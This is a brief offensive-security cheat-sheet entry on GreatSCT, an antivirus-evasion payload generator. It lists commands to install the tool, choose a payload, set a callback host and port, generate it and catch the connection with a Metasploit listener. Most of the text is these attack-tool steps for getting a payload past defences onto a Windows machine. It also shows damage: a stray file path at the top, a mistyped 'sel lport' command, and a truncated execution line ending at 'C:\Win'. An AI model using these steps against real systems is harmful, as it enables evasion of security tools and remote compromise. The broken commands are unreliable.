 # GreatSCT
Download it from: [https://github.com/GreatSCT/GreatSCT](https://github.com/GreatSCT/GreatSCT)

```bash
# Download
git clone https://github.com/GreatSCT/GreatSCT.git

cd GreatSCT/setup/
./setup.sh

cd ..
./GreatSCT.py
```

Inside `GreatSCT.py`

```sh
use 1
list
use 9
set lhost <ip>
sel lport <port>
generate
```

Now start the listener with `msfconsole -r file.rc` and execute the XML payload with:

```powershell
C:\Win
```

# References
- [https://book.hacktricks.wiki/en/windows-hardening/av-bypass.html](https://book.hacktricks.wiki/en/windows-hardening/av-bypass.html)
- [https://github.com/GreatSCT/GreatSCT.git](https://github.com/GreatSCT/GreatSCT.git)